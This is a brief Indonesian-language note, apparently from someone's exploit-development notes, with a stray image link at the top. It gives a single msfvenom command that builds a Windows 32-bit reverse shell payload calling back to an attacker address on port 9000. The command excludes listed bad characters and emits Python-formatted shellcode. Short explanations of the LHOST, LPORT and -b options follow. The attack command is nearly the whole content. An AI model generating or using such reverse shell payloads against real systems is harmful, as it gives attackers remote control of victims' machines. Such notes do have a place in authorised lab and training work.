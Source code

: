 # msfvenom buat reverse shell windows 32bit

    msfvenom -p windows/shell_reverse_tcp LHOST=10.4.35.95 LPORT=9000 EXITFUNC=thread -b "\x00\x23\x3c\x83\xba" -f py -v payload

LHOST itu buat local host attacker
LPORT itu buat local port attacker
-b itu badcharnya
